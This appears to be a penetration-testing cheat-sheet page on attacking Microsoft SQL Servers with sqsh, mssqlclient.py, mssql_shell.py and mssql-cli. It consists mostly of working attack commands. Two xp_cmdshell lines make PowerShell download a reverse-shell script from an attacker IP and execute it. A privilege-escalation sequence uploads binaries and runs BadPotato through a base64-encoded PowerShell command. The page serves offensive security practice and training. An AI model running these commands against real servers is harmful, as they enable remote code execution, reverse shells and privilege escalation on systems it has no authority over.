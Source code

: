 
### sqsh

```
$ sqsh -S 127.0.0.1 -U 'MEGACORP\snovvcrash' -P 'Passw0rd!'
1> xp_cmdshell "powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/rev.ps1')"
2> GO
```



### mssqlclient.py

```
$ mssqlclient.py MEGACORP/snovvcrash:'Passw0rd!'@127.0.0.1 [-windows-auth]
SQL> xp_cmdshell "powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.13.37/rev.ps1\")"
```



### mssql_shell.py

* [https://github.com/Alamot/code-snippets/blob/master/mssql/mssql_shell.py](https://github.com/Alamot/code-snippets/blob/master/mssql/mssql_shell.py)

Change `MSSQL_SERVER`, `MSSQL_USERNAME` and `MSSQL_PASSWORD` before running.

A scenario when [abusing SeImpersonatePrivilege with PrintSpoofer](/pentest/infrastructure/ad/privileges-abuse#printspoofer) (BadPotato):

```
$ python3 mssql_shell.py
CMD MSSQL$SQLEXPRESS@SQL01 C:\Windows\system32> UPLOAD pwn.exe \Windows\System32\spool\drivers\color\pwn.exe
CMD MSSQL$SQLEXPRESS@SQL01 C:\Windows\system32> UPLOAD Invoke-BadPotato.ps1 \Windows\System32\spool\drivers\color\potato.ps1
// . .\Invoke-BadPotato.ps1; Invoke-BadPotato -C "C:\Windows\System32\spool\drivers\color\pwn.exe"
CMD MSSQL$SQLEXPRESS@SQL01 C:\Windows\system32> powershell -enc LgAgAC4AXABJAG4AdgBvAGsAZQAtAEIAYQBkAFAAbwB0AGEAdABvAC4AcABzADEAOwAgAEkAbgB2AG8AawBlAC0AQgBhAGQAUABvAHQAYQB0AG8AIAAtAEMAIAAiAEMAOgBcAFcAaQBuAGQAbwB3AHMAXABTAHkAcwB0AGUAbQAzADIAXABzAHAAbwBvAGwAXABkAHIAaQB2AGUAcgBzAFwAYwBvAGwAbwByAFwAcAB3AG4ALgBlAHgAZQAiAAoA
```



### mssql-cli

* [https://github.com/dbcli/mssql-cli](https://github.com/dbcli/mssql-cli)

```
$ python -m pip install mssql-cli
$ mssql-cli -S 127.0.0.1 -U 'MEGACORP\snovvcrash' -P 'Passw0rd!'
```



### PowerUpSQL
